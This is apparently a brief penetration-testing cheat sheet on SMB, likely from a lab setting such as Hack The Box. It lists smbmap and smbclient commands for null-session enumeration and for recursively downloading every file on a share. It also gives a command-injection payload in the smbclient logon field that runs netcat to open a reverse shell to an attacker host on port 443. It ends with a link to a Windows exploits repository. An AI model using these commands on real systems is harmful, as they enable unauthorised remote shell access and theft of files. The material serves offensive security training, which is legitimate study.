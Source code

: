 Checking Null sessions
```bash
smbmap -H 10.10.10.4
smbclient -N -L //10.10.10.4
```

Creating reverse shell
```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

```bash
smbmap -H <remote_ip> -u <username> -p <password>
```

```bash
smbclient //10.10.10.100/<share_name> -U ""%""
    RECURSE ON
    PROMPT OFF
    mget *
```

https://github.com/abatchy17/WindowsExploits